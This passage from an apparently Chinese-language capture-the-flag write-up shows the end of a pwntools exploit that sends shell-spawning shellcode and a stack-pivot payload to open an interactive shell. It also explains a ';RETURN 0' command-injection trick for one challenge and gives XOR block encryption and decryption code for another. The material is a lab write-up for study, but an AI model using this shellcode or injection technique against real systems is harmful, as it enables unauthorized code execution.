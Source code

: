 ```python
p.sendline(b'0')

shellcode = asm(shellcraft.sh())

print(p.recvline())
p.sendline(shellcode)

print(p.recvuntil(b'Exit the app\n').decode('utf-8'))

p.sendline(b'3')
print(p.recvline())

payload = asm('nop; sub rsp, 0x2e8; jmp rsp')
payload += asm('nop') * 10
jmp_rax = 0x40116c
payload += p64(jmp_rax)
p.sendline(payload)
p.interactive()
```


## Reverse
### Flag Hunters
`;RETURN 0`利用`;`分割，形成一個單獨的指令，讓其可以回到最前面的指令


### Tap into Hash
這題是利用區塊鍊加密
```python
def encrypt(plaintext, inner_txt, key):
    midpoint = len(plaintext) // 2

    first_part = plaintext[:midpoint]
    second_part = plaintext[midpoint:]
    modified_plaintext = first_part + inner_txt + second_part
    block_size = 16
    plaintext = pad(modified_plaintext, block_size)
    key_hash = hashlib.sha256(key).digest()

    ciphertext = b''

    for i in range(0, len(plaintext), block_size):
        block = plaintext[i:i + block_size]
        cipher_block = xor_bytes(block, key_hash)
        ciphertext += cipher_block

    return ciphertext
```

以下是反過來推演的解密函數
```python
def decrypt(encryption_blockchain, key):
    key_hash = hashlib.sha256(key).digest()
    block_size = 16
    plaintext = b''

    for i in range(0, len(encryption_blockchain), block_size):
        block = encryption_blockchain[i:i + block_size]
        decrypted_block = xor_bytes(block, key_hash)
        plaintext += decrypted_block
    # 去掉填充，最後一個字節是填充的數量
    padding_length = plaintext[-1]
    plaintext = plaintext[:-padding_length]
```